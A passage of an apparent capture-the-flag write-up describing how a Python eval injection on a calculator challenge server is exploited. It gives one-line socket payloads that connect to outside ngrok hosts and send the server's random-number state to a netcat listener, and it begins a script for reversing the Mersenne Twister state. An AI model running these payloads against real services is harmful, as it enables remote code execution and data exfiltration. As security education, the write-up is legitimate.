 Socket operations are multiline, which seems like a limit in our `eval`, but we can just call different commands and simulate local variables with a [list comprehension](https://www.w3schools.com/python/python_lists_comprehension.asp).

Let's spawn an ngrok session with a netcat backend to try receiving the server random state.

```
nc -lnvp 7777
Listening on 0.0.0.0 7777
```

Send some random payload through the socket.

```python
[[x.connect(('2.tcp.ngrok.io', 19801)), x.send(b'a'*100), x.close()] for x in [__import__('socket').socket()]]
```

And our netcat receives a knock in the door:

```
Connection received on 127.0.0.1 34756
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

OK, let's do it again, but with the random state of the server:

```python
[[x.connect(('0.tcp.ngrok.io', 12851)), x.send(bytes(str(__import__('random').getstate()), 'UTF-8')), x.recv(20)] for x in [__import__('socket').socket()]]
```

which pings our netcat:

```
Connection received on 127.0.0.1 58092
(3, (3124877765, 267264362, 3570554370, 1064243459, 1732759887, 1732358228, 2719541217, 2504092942, 1438060417, 3270814677, 1986441919, 2698534769, 344725754, 3904667424, 2469278522, ...
```

OK, now we can crack the state and just send the correct guess back to our eval RCE.

Run the [Cracking Server](https://github.com/Neptunians/utcft-2023-writeup-calculator/blob/main/cracking_server.py), a socket app to receive the state and crack it:

```python
import random
import socket

def str_to_state(state_str):
    return eval(state_str, {})

# https://jazzy.id.au/2010/09/25/cracking_random_number_generators_part_4.html
def get_last_state(current_state):
    new_state = list(current_state)
    new_state[-1] = 624

    for i in reversed(range(624)):
        result = 0
        tmp = new_state[i]
        tmp = tmp ^ new_state[(i + 397) % 624]

        if ((tmp & 0x80000000) == 0x80000000):
            tmp = tmp ^ 0x9908b0df

        result = (tmp << 1) & 0x80000000
        tmp = new_state[(i - 1 + 624) % 624]
        tmp = tmp ^ new_state[(i + 396) % 624]

        if ((tmp & 0x80000000) == 0x80000000):
            tmp = tmp ^ 0x9908b0df
```